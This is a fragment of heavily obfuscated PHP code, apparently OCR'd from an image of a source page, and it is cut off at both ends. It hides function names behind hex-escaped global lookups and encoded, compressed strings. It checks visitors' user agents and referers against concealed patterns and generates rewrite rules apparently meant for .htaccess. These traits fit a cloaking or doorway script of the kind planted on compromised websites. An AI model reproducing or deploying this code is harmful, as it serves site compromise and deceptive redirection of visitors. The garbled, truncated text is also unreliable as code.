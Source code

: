 $OO_0__00OO.\'hT\'.${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O00_O_0O_O,5,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($O00_O_0O_O)-10).\'tP\'.$O__0O0O_O0;');$O__00_OO0O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$O000O_O_O_','$OO_0__00OO=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O000O_O_O_,0,5);$O__0O0O_O0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O000O_O_O_,-5);$OO__00_0OO=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x4f\x5f\x4f\x30\x30"]($O000O_O_O_,7,${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x4f\x4f\x4f\x5f\x5f\x30\x5f\x30"]($O000O_O_O_)-14);return ${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x4f\x30\x5f\x5f\x30\x4f\x30\x5f\x4f"](${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x30\x30\x5f\x30\x5f\x4f\x4f\x4f"]($OO_0__00OO.$OO__00_0OO.$O__0O0O_O0));');$OO___00O0O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$O_00_OO_0Ogent','$O__O0OO_00=false;$O_O_O000_O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'S8/PThT89JTcovqUlKzEwpLS7ITEktqknKzEsHiaWDZSFSNYn5OWCJmsrEjPxtP8AA==\');if(TEST_MODE){$O_O_O000_O.=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'q/HNrhT8rMyUktPEAA==\');}if($O_00_OO_0Ogent!=\'\'){if(${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x4f\x4f\x5f\x5f\x30\x4f\x5f"]("/($O_O_O000_O)/si",$O_00_OO_0Ogent)){$O__O0OO_00=true;}}return $O__O0OO_00;');$OO_00_0_OO=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$O0OOO0_0__efer','$O_O__0OO00=false;$O0O__OO0_0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'S8/PThT89J1UvO18sqqKlMzMjPh7KTMvPtPSAQ==\');if($O0OOO0_0__efer!=\'\'&&${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x4f\x4f\x5f\x5f\x30\x4f\x5f"]("/($O0O__OO0_0)/si",$O0OOO0_0__efer)){$O_O__0OO00=true;}return $O_O__0OO00;');$O_O00O_O_0=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x30\x4f\x5f\x4f\x4f\x5f\x5f"]('$OOO00_0O__=\'\'','$OOO___000O=array();$OOO00_0O__=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x5f\x4f\x30\x30\x4f\x4f\x5f"]($OOO00_0O__);if($OOO00_0O__!=\'\'){$O00_O_O0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x4f\x30\x4f\x30\x4f\x5f"]($OOO00_0O__,\'/?:"()[]{}\\\\\');$O0OO_0_0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/[a-z]+/",\'.*\',$O00_O_O0O_);$O0OO_0_0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/\\d+/",\'[0-9]+\',$O0OO_0_0O_);$O0OO_0_0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/A/",\'(.*)\',$O0OO_0_0O_);$O0OO_0_0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/B/",\'([^\\/\\d]+)\',$O0OO_0_0O_);$O0OO_0_0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/D/",\'([\\d]+)\',$O0OO_0_0O_);$O0OO_0_0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/C/",\'([\\d]+)\',$O0OO_0_0O_);$OOO0__0O0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/[^A-Z]/",\'\',$OOO00_0O__);$O0O0__O0O_=array();$O__O00O0O_=0;while(isset($OOO0__0O0_[$O__O00O0O_])){$O0O0__O0O_[$O__O00O0O_+1]=$OOO0__0O0_[$O__O00O0O_];$O__O00O0O_++;}$O0O0__O0O_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x5f\x30\x4f\x5f\x4f\x5f\x30\x4f"]($O0O0__O0O_);$O0O__O_00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/[a-z]+/",\'.*\',$O00_O_O0O_);$O0O__O_00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/\\d+/",\'[0-9]+\',$O0O__O_00O);$O0O__O_00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/A/",\'(.*)\',$O0O__O_00O);$O0O__O_00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/B/",\'([^\\d\\/]+)\',$O0O__O_00O);$O0O__O_00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/C/",\'([0-9]+)\',$O0O__O_00O);$O0O__O_00O=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x30\x30\x5f\x30\x4f\x5f\x4f\x4f\x5f"]("/D/",\'([0-9]+)\',$O0O__O_00O);$OOO___000O["\x72\x72\x6d\x61\x74\x63\x68"]=$O0OO_0_0O_;$O0O_OO0_0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'C0otLhT8osSQ0qzUlViFMtVlGwV1FNASJbIFZTVa0ODHUNiowPDgny9HOvjfatPJBQA=\');$OOO___000O["\x72\x72\x68\x74\x61\x63\x63"]=sprintf($O0O_OO0_0_,$O0O__O_00O,$O0O0__O0O_["\x42"],$O0O0__O0O_["\x43"],$O0O0__O0O_["\x44"]);$OOO_00O_0_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x5f\x30\x30\x5f\x4f\x4f\x30\x4f"](\'KypKthTFJNTKwpKkqyUk1KAtLJVqrJyUA6xUqtP1ogIA\');$O_0OO_O00_=${"\x47\x4c\x4f\x42\x41\x4c\x53"}["\x4f\x5f\x4f\x30\x30\x4f\x4f\x5f\x30\x5f"](\'|\',$OOO_00O_0_);$OO__0_O0O0=array();foreach($O_0OO_O00_ as